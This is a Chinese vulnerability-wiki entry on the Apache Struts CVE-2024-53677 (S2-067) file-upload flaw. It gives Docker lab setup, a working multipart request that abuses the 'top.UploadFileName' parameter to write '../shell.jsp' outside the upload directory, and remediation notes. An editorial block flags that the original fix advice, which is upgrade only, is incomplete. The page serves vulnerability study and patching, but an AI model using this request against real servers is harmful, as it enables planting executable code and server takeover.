


## 2026-10-03 版本核验

CVE-2024-53677 的 CNA 范围为 Struts 2.0.0 ≤ v < 6.4.0，且涉及旧 FileUploadInterceptor 上传逻辑；官方要求升级并迁移上传机制。原文按旧分支列举的范围和前一编号 CVE-2023-50164 继续保留，不能拿前一编号的补丁界限替代本条。

# Apache Struts S2-067 远程代码执行漏洞 CVE-2024-53677

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：旧FileUploadInterceptor、可控相关参数并被应用保存，目标可写/可执行路径；实验6.3.0
- 证据范围：top.UploadFileName变体与旧机制条件明确，但修复建议漏必要迁移。

### 已有来源支持的更正

- 官方明确升级6.4.0并迁移Action File Upload；保留旧机制仍脆弱，迁移非向后兼容

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 高优先级：只升级>=6.4.0不充分，官方要求迁移Action File Upload并改Action；继续旧机制仍受影响
- 环境链接显示50164实际目标53677，名称复制错误
- 使用6.3.0不能单独证明前序修复6.3.0.2后仍受影响，应补更准确测试版本
- 是否无FileUploadInterceptor安全要按实际调用而非仅搜索类名

### 核验来源

- https://cwiki.apache.org/confluence/spaces/WW/pages/327979397/S2-067

### 操作风险与资料使用

- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。
- 验证须使用自有隔离环境的凭据；已暴露的真实凭据应撤销或轮换。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache Struts 是一个开源的、用于构建企业级 Java Web 应用的 MVC 框架。2024 年 12 月，官方披露 CVE-2024-53677 Apache Struts FileUploadInterceptor 文件上传漏洞。在受影响版本中，若代码中使用了 FileUploadInterceptor ，则可能在进行文件上传时攻击者可能上传文件至其他目录，在特定场景下可能造成代码执行。

## 漏洞影响

```
Struts 2.0.0 - Struts 2.3.37
Struts 2.5.0- Struts 2.5.33
Struts 6.0.0- Struts 6.3.0.2
```

参考链接：

- [Apache Struts2 文件上传逻辑绕过(CVE-2024-53677)(S2-067)](https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%80%BB%E8%BE%91%E7%BB%95%E8%BF%87-CVE-2024-53677-S2-067/)
- https://github.com/c4oocO/CVE-2024-53677-Docker
- https://github.com/Trackflaw/CVE-2023-50164-ApacheStruts2-Docker

## 环境搭建

通过项目 [CVE-2023-50164-ApacheStruts2-Docker](https://github.com/c4oocO/CVE-2024-53677-Docker) 搭建一个 Struts 6.3.0 漏洞环境：

```shell
git clone https://github.com/c4oocO/CVE-2024-53677-Docker.git
cd CVE-2024-53677-Docker 
docker build --ulimit nofile=122880:122880 -m 3G -t cve-2024-53677 .
docker run -p 8080:8080 --ulimit nofile=122880:122880 -m 3G --rm -it --name cve-2024-53677 cve-2024-53677
```

该项目修改自 [CVE-2023-50164-ApacheStruts2-Docker](https://github.com/Trackflaw/CVE-2023-50164-ApacheStruts2-Docker)，将 `struts-app/src/main/java/org/trackflaw/example/Upload.java` 的原始文件上传处理逻辑替换为 `FileUploadInterceptor` 。

可更新 maven 源加速构建，在 Dockerfile 同级目录创建一个自定义的 settings.xml：

```
<settings xmlns="http://maven.apache.org/SETTINGS/1.0.0"
          xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
          xsi:schemaLocation="http://maven.apache.org/SETTINGS/1.0.0
                     http://maven.apache.org/xsd/settings-1.0.0.xsd">
  <mirrors>
    <mirror>
        <id>aliyun-maven</id>
        <mirrorOf>central</mirrorOf>
        <name>Aliyun Maven</name>
        <url>https://maven.aliyun.com/repository/central</url>
    </mirror>
  </mirrors>
</settings>
```

在 Dockerfile 中新增一行，将自定义的 `settings.xml` 复制到 Maven 的配置目录中，替换默认文件：

```
COPY settings.xml /root/.m2/settings.xml
```

重新执行 `docker build` 与 `docker run` 即可。

通过 `curl` 验证服务是否启动：

```shell
curl http://your-ip:8080/upload.action
```

或访问 `http://your-ip:8080/upload.action` 查看上传页面。

## 漏洞复现

```http
POST /upload.action HTTP/1.1
Host: your-ip:8080
Content-Length: 320
Cache-Control: max-age=0
Origin: http://your-ip:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2NRMscRh7zNdWblD
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://your-ip:8080/upload.action
Accept-Encoding: gzip, deflate, br
Accept-Language: en
Cookie: JSESSIONID=4563A1B22B51DE02F1FD131C1E88DE5C
Connection: keep-alive

------WebKitFormBoundary2NRMscRh7zNdWblD
Content-Disposition: form-data; name="Upload"; filename="test.png"
Content-Type: image/png

<%= "awesome_poc" %>
------WebKitFormBoundary2NRMscRh7zNdWblD
Content-Disposition: form-data; name="top.UploadFileName"; 

../shell.jsp
------WebKitFormBoundary2NRMscRh7zNdWblD--
```




访问上传文件：

```
http://your-ip:8080/shell.jsp
```




## 漏洞修复

1. 升级组件 Apache Struts 升级至 6.4.0 及以上版本。
2. 自行排查代码中是否使用 FileUploadInterceptor，若无使用则不受该漏洞影响。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
